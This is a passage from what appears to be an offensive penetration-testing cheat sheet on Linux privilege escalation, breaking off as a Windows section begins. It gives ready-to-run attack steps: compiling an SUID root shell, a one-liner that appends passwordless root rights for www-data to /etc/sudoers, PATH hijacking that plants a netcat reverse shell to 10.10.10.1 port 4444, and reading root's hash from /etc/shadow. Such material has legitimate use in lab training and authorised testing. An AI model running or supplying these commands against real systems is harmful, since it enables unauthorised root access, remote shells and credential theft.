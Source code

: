               Building the SUID Shell binary  
              gcc -o suid suid.c  
              For 32 bit:  
              gcc -m32 -o suid suid.c

    *   Create and compile an SUID from a limited shell (no file transfer)

              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc

*   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

*   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable to execute your command instead. In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on port 4444.

         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

*   SearchSploit

              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail

*   Kernel Exploit Suggestions for Kernel Version 3.0.0

    `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

*   Precompiled Linux Kernel Exploits - _**Super handy if GCC is not installed on the target machine!**_

    [_https://www.kernel-exploits.com/_](http://web.archive.org/web/20171113221652/https://www.kernel-exploits.com/)

*   Collect root password

    `cat /etc/shadow |grep root`

*   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`

*   ## [](#windows-privilege-escalation)Windows Privilege Escalation

*   Windows Privilege Escalation resource [http://www.fuzzysecurity.com/tutorials/16.html](http://web.archive.org/web/20171113221652/http://www.fuzzysecurity.com/tutorials/16.html)

*   Metasploit Meterpreter Privilege Escalation Guide [https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/](http://web.archive.org/web/20171113221652/https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)

*   Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group:

    `whoami`
